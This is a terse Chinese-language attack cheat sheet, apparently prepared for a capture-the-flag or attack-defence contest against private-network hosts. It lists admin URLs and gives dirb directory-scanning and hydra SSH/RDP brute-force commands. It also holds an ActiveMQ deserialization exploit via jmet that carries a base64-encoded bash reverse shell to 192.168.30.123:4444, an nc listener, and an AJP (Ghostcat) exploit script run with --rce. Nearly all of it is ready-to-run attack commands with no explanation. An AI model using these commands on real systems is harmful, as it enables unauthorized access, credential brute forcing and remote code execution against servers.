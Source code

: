 ## 网站后台

http://192.168.20.158/?/admin/

http://192.168.40.196/?/admin/


## 扫网站flag

dirb http://192.168.20.158/ dict/dirb_zidian.txt

dirb http://192.168.40.196/ dict/dirb_zidian.txt


## 爆破弱口令

``` bash
hydra -L dict/user.txt -P dict/pass.txt -vV -e ns 192.168.20.158 ssh -f

hydra -L dict/user.txt -P dict/pass.txt -vV -e ns 192.168.40.196 ssh -f

hydra 192.168.20.158 rdp -L dict/user.txt -P dict/pass.txt -V -f

hydra 192.168.40.196 rdp -L dict/user.txt -P dict/pass.txt -V -f
```

## 中间件漏洞

1. ActiveMQ

抢时间提前访问：
http://192.168.20.253:8161/admin/browse.jsp?JMSDestination=event
http://192.168.40.200:8161/admin/browse.jsp?JMSDestination=event

``` bash
bash –i >& /dev/tcp/192.168.30.123/4444 0>&1
YmFzaCATaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMwLjEyMy80NDQ0IDA+JjE=

java -jar jmet/jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCATaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMwLjEyMy80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.20.253 61616

java -jar jmet/jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCATaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMwLjEyMy80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.40.200 61616

nc -lvp 4444
```

2. Ajp 

```bash
python3 2020-10487.py -p 8009 -f /WEB-INF/shell.jsp 192.168.20.253 --rce 1

python3 2020-10487.py -p 8009 -f /WEB-INF/shell.jsp 192.168.40.200 --rce 1
```
